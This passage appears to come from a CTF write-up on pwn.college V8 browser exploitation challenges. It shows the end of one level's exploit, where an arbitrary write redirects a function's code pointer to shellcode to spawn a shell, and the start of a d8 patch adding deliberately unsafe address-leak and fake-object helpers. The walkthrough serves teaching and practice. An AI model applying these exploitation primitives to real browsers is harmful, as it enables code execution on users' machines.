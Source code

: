 ```js
ArbWrite32(code_addr - 1 + 0x14, float_shellcode_addr); 

console.log("Spawning Shell...")
shellcode() 
```


After executing the above `exp.js` using `/challenge/run` provided in the VM, you should... get a shell!

![Desktop View](/assets/Browser/CTFs/V8_PwnCollege_Adventure/solution_2.png){: width="550" height="350" }

## Level 3 - Objects are Fake

### Patch Analysis

Let's analyze the `patch` file given in the `/challenge` directory and see it's contents.

```diff
diff --git a/src/d8/d8.cc b/src/d8/d8.cc
index facf0d86d79..0299ed26802 100644
--- a/src/d8/d8.cc
+++ b/src/d8/d8.cc
@@ -1283,6 +1283,52 @@ struct ModuleResolutionData {
 
 }  // namespace
 
+void Shell::GetAddressOf(const v8::FunctionCallbackInfo<v8::Value>& info) {
+  v8::Isolate* isolate = info.GetIsolate();
+
+  if (info.Length() == 0) {
+    isolate->ThrowError("First argument must be provided");
+    return;
+  }
+
+  internal::Handle<internal::Object> arg = Utils::OpenHandle(*info[0]);
+  if (!IsHeapObject(*arg)) {
+    isolate->ThrowError("First argument must be a HeapObject");
+    return;
+  }
+  internal::Tagged<internal::HeapObject> obj = internal::Cast<internal::HeapObject>(*arg);
+
+  uint32_t address = static_cast<uint32_t>(obj->address());
+  info.GetReturnValue().Set(v8::Integer::NewFromUnsigned(isolate, address));
+}
+
+void Shell::GetFakeObject(const v8::FunctionCallbackInfo<v8::Value>& info) {
+	v8::Isolate *isolate = info.GetIsolate();
+	Local<v8::Context> context = isolate->GetCurrentContext();
+
+	if (info.Length() != 1) {
```